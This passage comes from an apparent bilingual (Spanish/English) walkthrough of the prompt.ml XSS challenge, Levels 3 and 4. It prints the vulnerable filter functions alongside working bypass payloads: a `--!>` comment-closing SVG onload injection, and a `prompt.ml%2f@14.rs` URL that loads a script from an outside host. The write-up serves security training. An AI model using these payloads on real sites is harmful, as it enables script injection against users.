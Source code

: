
:uk: With this code, they thwart the usage of `-->` to close the comment, but we can use `--!>` which, even giving a parse error, successfully closes the comment, letting us injecting the script.

### Code
``` 
function escape(input) {
    // filter potential comment end delimiters
    input = input.replace(/->/g, '_');

    // comment the input to avoid script execution
    return '<!-- ' + input + ' -->';
}        
```

### Solution
`--!><svg onload=prompt(1)>`

>[Top](#index)

## [Level 4]
:es: Tenemos que ejecutar el script desde una página, ya que el regex en el if comprueba que la url contenga `http(s)://prompt.ml/`, además, la función `decodeURIComponent` trabaja sobre una URL encodeada y lo transforma a la representación canónica y además tenemos que la web `14.rs` promptea 1.

Sabiendo esto, tendremos que, meter la dirección de prompt.ml como si fuera user:password y además escribir el `/` como `%2f` (su encoded), de esta manera, el if verá `https://prompt.ml/` cuando en realidad estaremos haciendo `https://prompt.ml%2f@14.rs`, lo que el browser interpretará como, ve a `14.rs` y mete como user `prompt.ml%2f`.

:uk: We have to execute the script from another webpage, but making it look that we're still in the same host, the conditional statement checks that the URL is composed of `http(s)://prompt.ml/`, being also decoded from URL to canoninc representation using `decodeURIComponent`, we will be using website `14.rs` for the attack, which prompts(1) by default.

Knowing this, we'll have to put `prompt.ml` as the user:password field in the url, tricking the system to think that we're still at `prompt.ml/`, where in reality, using `https://prompt.ml%2f@14.rs`, the code will see a legit request to `prompt.ml/`, whereas the browser won't decode that `%2f`, thus using user `prompt.ml%2f` @ (at) `14.rs`, doing the request successfully.

### Code
```
function escape(input) {
    // make sure the script belongs to own site
    // sample script: http://prompt.ml/js/test.js
    if (/^(?:https?:)?\/\/prompt\.ml\//i.test(decodeURIComponent(input))) {
        var script = document.createElement('script');
        script.src = input;
        return script.outerHTML;
    } else {
        return 'Invalid resource.';
    }
}
```


[Level 0]: http://prompt.ml/0
[Level 1]: http://prompt.ml/1
[Level 2]: http://prompt.ml/2
[Level 3]: http://prompt.ml/3
[Level 4]: http://prompt.ml/4
[Level 5]: http://prompt.ml/5
[Level 6]: http://prompt.ml/6
[Level 7]: http://prompt.ml/7
[Level 8]: http://prompt.ml/8
[Level 9]: http://prompt.ml/9
[Level A]: http://prompt.ml/10
[Level B]: http://prompt.ml/11
[Level C]: http://prompt.ml/12
[Level D]: http://prompt.ml/13
[Level E]: http://prompt.ml/14
[Level F]: http://prompt.ml/15